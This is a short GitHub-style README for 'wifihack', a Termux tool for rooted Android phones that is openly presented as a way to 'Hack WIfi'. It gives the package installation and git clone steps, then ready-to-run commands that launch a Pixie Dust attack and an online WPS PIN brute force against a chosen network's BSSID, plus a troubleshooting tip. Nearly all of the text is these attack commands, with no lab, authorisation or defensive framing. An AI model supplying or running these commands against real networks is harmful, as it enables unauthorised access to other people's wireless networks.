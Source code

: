 # wifihack

Hack WIfi Using Termux! (Requires Root)
Installation :

$ apt update && apt upgrade
$ pkg install -y root-repo
$ pkg install -y git tsu python wpa-supplicant pixiewps iw
$ git clone https://github.com/rareblack35/wifihack
$ cd wifihack
$ chmod +x dark.py
$ sudo python dark.py --help

Example : sudo python3 dark.py -i wlan0 -K
Note:

First turn off your Wifi.



    Show avaliable networks and start Pixie Dust attack on a specified network.
    sudo python3 dark.py -i wlan0 -K
        Start Pixie Dust attack on a specified BSSID: sudo python dark.py -i wlan0 -b 00:91:4C:C3:AC:28 -K
    Launch online WPS bruteforce with the specified first half of the PIN:
    sudo python dark.py -i wlan0 -b 00:90:4C:C1:AC:21 -B -p 1234

Troubleshooting

"Device or resource busy (-16)" - Turn on Wifi and Then Turn off Wifi.
